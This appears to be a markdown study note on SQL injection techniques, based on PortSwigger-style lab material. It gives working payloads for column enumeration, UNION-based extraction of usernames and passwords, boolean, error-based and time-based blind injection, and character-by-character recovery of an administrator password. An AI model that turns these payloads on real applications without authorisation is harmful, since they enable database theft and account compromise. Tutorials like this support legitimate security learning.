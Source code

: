 # SQLi injection

## SQL Injection Cheatsheet

* https://tib3rius.com/sqli

## Overview

**How to detect SQL injection vulnerabilities**

* The single quote character `'` and look for errors or other anomalies.
* Some SQL-specific syntax that evaluates to the base (original) value of the entry point, and to a different value, and look for systematic differences in the application responses.
* Boolean conditions such as `OR 1=1` and `OR 1=2`, and look for differences in the application's responses.
* Payloads designed to trigger time delays when executed within a SQL query, and look for differences in the time taken to respond.
* OAST payloads designed to trigger an out-of-band network interaction when executed within a SQL query, and monitor any resulting interactions.\\

**SQL injection in different parts of the query**

* Most SQL injection vulnerabilities occur within the `WHERE` clause of a `SELECT` query.
* However, SQL injection vulnerabilities can occur at any location (UPDATE, INSERT, SELECT \[column, table], ORDER BY)\\

**Warning: OR 1=1**

* If your condition reaches an UPDATE or DELETE statement, for example, it can result in an accidental loss of data.

## SQL injection UNION attacks

* Requirements
  * How many columns are being returned from the original query
  * Which columns returned from the original query are of a suitable data type to hold the results from the injected query

## Determining the number of columns required

* First way: Injecting a series of `ORDER BY` clauses and incrementing the specified column index until an error occurs
  * Example (the injection point is a quoted string within the `WHERE` clause)
  * ```
    ' ORDER BY 1--
    ' ORDER BY 2--
    ' ORDER BY 3--
    etc.
    ```
* Second way: submitting a series of `UNION SELECT` payloads specifying a different number of null values
  * NULL is convertible to every common data type, so it maximizes the chance that the payload will succeed when the column count is correct.
  * ```
    ' UNION SELECT NULL--
    ' UNION SELECT NULL,NULL--
    ' UNION SELECT NULL,NULL,NULL--
    etc.
    ```
* Note: the application might actually return the database error in its HTTP response, but may return a generic error or simply return no results

## Database-specific syntax

* Example:
  * Oracle: every `SELECT` query must use the `FROM` keyword and specify a valid table
  * MySQL: the double-dash sequence must be followed by a space
  * https://portswigger.net/web-security/sql-injection/cheat-sheet

## Finding columns with a useful data type

* Do you want a string?
  * ```
    ' UNION SELECT 'a',NULL,NULL,NULL--
    ' UNION SELECT NULL,'a',NULL,NULL--
    ' UNION SELECT NULL,NULL,'a',NULL--
    ' UNION SELECT NULL,NULL,NULL,'a'--
    ```
  * Error example: Conversion failed when converting the varchar value 'a' to data type int.
  * If no error occurs and the response includes the injected string, the column is suitable for retrieving string data.

## Examining the database

* `' UNION SELECT @@version--`
* Listing the contents of the database
* Most database types (except Oracle) have a set of views called the information schema
  * `information_schema.tables`
    * | TABLE\_CATALOG | TABLE\_SCHEMA | TABLE\_NAME | TABLE\_TYPE |
      | -------------- | ------------- | ----------- | ----------- |
      | MyDatabase     | dbo           | Products    | BASE TABLE  |
    * `SELECT * FROM information_schema.tables`
  * `information_schema.columns`
    * | TABLE\_CATALOG | TABLE\_SCHEMA | TABLE\_NAME | COLUMN\_NAME | DATA\_TYPE |
      | -------------- | ------------- | ----------- | ------------ | ---------- |
      | MyDatabase     | dbo           | Users       | UserId       | int        |
    * `SELECT * FROM information_schema.columns WHERE table_name = 'Users'`
* Oracle:
  * `SELECT * FROM all_tables`
    * `SELECT TABLE_NAME FROM all_tables`
  * `SELECT * FROM all_tab_columns WHERE table_name = 'USERS'`
    * `SELECT COLUMN_NAME FROM all_tab_columns WHERE table_name = 'USERS'`

## Retrieving multiple values within a single column

* You can retrieve multiple values together within this single column by concatenating the values together
* `' UNION SELECT username || '~' || password FROM users--`
  * https://portswigger.net/web-security/sql-injection/cheat-sheet

## Blind SQL Injection

* Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.

## Triggering conditional responses

* `SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'`
  * …xyz' AND '1'='1
    * The query to return results, because the injected `AND '1'='1` condition is true. As a result, the "Welcome back" message is displayed.
  * …xyz' AND '1'='2
    * The query to not return any results, because the injected condition is false. The "Welcome back" message is not displayed.
* Extract data one piece at a time
  * `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm`
    * This returns the "Welcome back" message, indicating that the injected condition is true, and so the first character of the password is greater than `m`
  * `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't`
    * This does not return the "Welcome back" message, indicating that the injected condition is false, and so the first character of the password is not greater than `t`.
  * `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's`
    * ... Confirm that the first character of the password is `s`
  * We can continue this process to systematically determine the full password for the Administrator user.
* `SUBSTRING` is called `SUBSTR` on some types of database (https://portswigger.net/web-security/sql-injection/cheat-sheet)

## Error-based SQL injection

* Problem: Some applications carry out SQL queries but their behavior doesn't change, regardless of whether the query returns any data. The technique "Triggering conditional responses" won't work, because injecting different boolean conditions makes no difference to the application's responses.
* It's often possible to induce the application to return a different response depending on whether a SQL error occurs and extract or infer sensitive data from the database, even in blind contexts.
* `xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a`
  * The CASE expression evaluates to 'a', which does not cause any error.
* `xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a`
  * It evaluates to 1/0, which causes a divide-by-zero error.
* You can use this to determine whether the injected condition is true.
* `xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`
* Note: There are different ways of triggering conditional errors, and different techniques work best on different database types. See SQL cheat sheet

## Time-based SQL injection

* Condition: As SQL queries are normally processed synchronously by the application, delaying the execution of a SQL query also delays the HTTP response.
* Triggering time delays depending on whether an injected condition is true or false

```
'; IF (1=2) WAITFOR DELAY '0:0:10'--    
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```

* The first does not trigger a delay (false), the second does (true)
* We can retrieve data by testing one character at a time
* `'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`\
